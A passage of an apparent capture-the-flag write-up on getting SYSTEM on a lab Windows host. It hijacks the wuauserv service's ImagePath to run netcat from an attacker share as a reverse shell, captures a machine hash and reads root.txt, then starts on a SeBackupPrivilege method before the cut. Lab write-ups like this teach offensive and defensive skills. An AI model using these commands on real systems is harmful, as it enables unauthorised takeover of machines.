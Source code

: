 ```powershell
*Evil-WinRM* PS C:\Users\jorden\Documents> reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "\\10.10.14.22\share\nc.exe -e powershell.exe 10.10.14.22 443" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> reg query "HKLM\System\CurrentControlSet\services\wuauserv"
HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\wuauserv
    PreshutdownTimeout    REG_DWORD    0x36ee800
    DisplayName    REG_SZ    @%systemroot%\system32\wuaueng.dll,-105
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    \\10.10.14.22\share\nc.exe -e powershell.exe 10.10.14.22 443
 [...]
 
 *Evil-WinRM* PS C:\Users\jorden\Documents> Start-Service wuauserv
```

We get a connection on our SMB-listener.

```bash
[*] Incoming connection (10.10.10.179,52287)
[*] AUTHENTICATE_MESSAGE (MEGACORP\MULTIMASTER$,MULTIMASTER)
[*] User MULTIMASTER\MULTIMASTER$ authenticated successfully
[*] MULTIMASTER$::MEGACORP:4141414141414141:3a99b0b61b7e5599be897baf9b373ac5:0101000000000000800a274f2340d60106cc2daf1a2db780000000000100100061007a004c0072006a004800790056000300100061007a004c0072006a004800790056000200100043006300490041004e004200770059000400100043006300490041004e0042007700590007000800800a274f2340d6010600040002000000080030003000000000000000000000000040000085a8ce7e3682be3bce46944ac03cb66018d80ae576687f51f35ad2ea9ace5e060a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320032000000000000000000
[*] Connecting Share(1:share)
```

We get a shell as `nt authority\system` and can read `root.txt`.

```bash
root@darkness:~# rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.179] 52297
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system
```

```powershell
PS C:\Users\Administrator\Desktop> type root.txt
001e7***************************
```

#### Way 2: Shadow copy of root.txt

Another possible way to get root.txt is to exploit our `SeBackupPrivilege`. This allows us to create backups of any files, whilst not restoring their permissions. This gives us arbitrary read access.

```powershell
*Evil-WinRM* PS C:\Users\jorden\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
```